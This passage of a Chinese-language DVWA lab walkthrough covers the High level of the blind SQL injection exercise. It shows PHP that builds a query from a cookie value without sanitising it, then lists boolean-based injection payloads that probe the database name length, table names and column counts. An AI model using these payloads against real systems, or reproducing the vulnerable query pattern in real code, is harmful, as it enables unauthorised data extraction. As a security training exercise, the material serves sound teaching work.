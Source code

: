     <?php 
    
    if( isset( $_COOKIE[ 'id' ] ) ) { 
        // Get input 
        $id = $_COOKIE[ 'id' ]; 
    
        // Check database 
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;"; 
        $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors 
    
        // Get results 
        $num = @mysql_numrows( $result ); // The '@' character suppresses errors 
        if( $num > 0 ) { 
            // Feedback for end user 
            echo '<pre>User ID exists in the database.</pre>'; 
        } 
        else { 
            // Might sleep a random amount 
            if( rand( 0, 5 ) == 3 ) { 
                sleep( rand( 2, 4 ) ); 
            } 
    
            // User wasn't found, so the page wasn't! 
            header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' ); 
    
            // Feedback for end user 
            echo '<pre>User ID is MISSING from the database.</pre>'; 
        } 
    
        mysql_close(); 
    } 
    
    ?> 

可以看到，High级别的代码利用cookie传递参数id，当SQL查询结果为空时，会执行函数sleep(seconds)，目的是为了扰乱基于时间的盲注。同时在 SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

### **漏洞利用** 虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。但由于服务器端执行sleep函数，会使得基于时间盲注的准确性受到影响，这里我们只演示 **基于布尔的盲注** ： 

抓包将cookie中参数id改为1’ and length(database())=4 #，显示存在，说明数据库名的长度为4个字符；

抓包将cookie中参数id改为1’ and length(substr(( select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #，显示存在，说明数据中的第一个表名长度为9个字符；

抓包将cookie中参数id改为1’ and (select count(column_name) from information_schema.columns where table_name=0×7573657273)=8 #，（0×7573657273 为users的16进制），显示存在，说明uers表有8个字段。

## **Impossible**服务器端核心代码

    <?php 
    
    if( isset( $_GET[ 'Submit' ] ) ) { 
        // Check Anti-CSRF token 
        checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 
    

[1]: http://www.freebuf.com/articles/web/120985.html?utm_source=tuicool&utm_medium=referral
[4]: http://www.dvwa.co.uk/
[5]: http://img1.tuicool.com/7VvYrm2.jpg!web
[6]: http://www.freebuf.com/sectool/102661.html
[7]: http://www.freebuf.com/articles/web/116437.html
[8]: http://www.freebuf.com/articles/web/116714.html
[9]: http://www.freebuf.com/articles/web/118352.html
[10]: http://www.freebuf.com/articles/web/119150.html
[11]: http://www.freebuf.com/articles/web/119467.html
[12]: http://www.freebuf.com/articles/web/119692.html
[13]: http://www.freebuf.com/articles/web/120747.html
[14]: http://img1.tuicool.com/IZfEn2R.jpg!web
[15]: http://img2.tuicool.com/q2QBziu.jpg!web
[16]: http://img0.tuicool.com/3mMRnmF.jpg!web
[17]: http://img1.tuicool.com/bEFjaeU.jpg!web